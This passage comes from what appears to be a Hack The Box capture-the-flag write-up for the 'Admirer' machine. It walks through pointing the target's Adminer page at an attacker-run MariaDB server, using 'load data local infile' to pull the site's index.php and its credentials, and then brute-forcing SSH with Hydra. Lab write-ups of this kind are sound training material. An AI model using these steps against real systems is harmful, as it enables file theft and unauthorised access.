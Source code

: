 So first we start up `mysql`.

Command:
`service mysql start`

Now connect to the service and create a user and database.

Command:
`mysql -u root` NOTE: This only works on unmodified Kali instances. You will need to supply a password otherwise.
`MariaDB [(none)]> create user testuser@'%' identified by 'password';`
`MariaDB [(none)]> create database testdb;`
`MariaDB [(none)]> grant all privileges on testdb.* to 'testuser';`

Now that our user and DB is created we need to modify our Bind address for our server. If we don't do this you will get Connection Refused from the Adminer.php page. Inside the `50-server.cnf` file we can change this to our HTB issued IP:

Command:
`nano /etc/mysql/mariadb.conf.d/50-server.cnf`

{{< figure src="__GHOST_URL__/content/images/2020/05/image-61.png" >}}

Then we restart the service.

Command:
`service mysql restart`

With that all complete we should be able to connect back to our system via the Adminer web interface.

{{< figure src="__GHOST_URL__/content/images/2020/05/admirer_adminer.gif" >}}

Once we're logged in we create a table inside our `testdb`.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-62.png" >}}

Now we can run an the sql command to obtain data:

```sql
load data local infile '../index.php'
into table testdb.t1
fields terminated by "\n"
```

{{< figure src="__GHOST_URL__/content/images/2020/05/admirer_file_load.gif" >}}

If that runs sucessfully, we should have the content of our index page in our newly created table.

Now when we look at the table we do indeed see the index.php loaded in. When we look further we see the credentials on the page are different than the ones we currently have.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-63.png" >}}

We'll add this to our list of credentials as well. We repeat the process for other pages but nothing else is of use. We have a fairly large list of users and passwords at this point. We can use `Hydra` to attempt to brute force our way into the box via `SSH`.

Command:
`hydra -V -L users -P passwords ssh://admirer.htb`
